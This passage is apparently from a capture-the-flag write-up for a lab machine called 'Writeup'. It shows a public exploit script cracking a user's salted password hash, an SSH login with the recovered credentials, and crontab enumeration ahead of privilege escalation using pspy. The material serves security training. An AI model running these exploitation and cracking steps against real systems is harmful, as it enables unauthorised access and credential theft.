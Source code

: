 ```bash
root@kali:~# python 46635.py -u http://10.10.10.138/writeup --crack -w /usr/share/wordlists/rockyou.txt


[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9

```
And we have the `username` and `password`

## Usershell

```bash
root@kali:~# ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ ls
user.txt
jkr@writeup:~$ cat user.txt 
d4e49*********************
```

And we have logged in

## Privilege Escalation

Enumeration showed that there are some cron jobs that are run.

```bash
jkr@writeup:/etc$ cat crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && /bin/run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && /bin/run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && /bin/run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && /bin/run-parts --report /etc/cron.monthly )
```
### pspy
This is a [github project](https://github.com/DominicBreuker/pspy) that can be used to monitor the running processes.
I downloaded it to my system and copied it to the target via `wget`. This is very useful for monitoring `cronjobs` or other processes that run in
the background.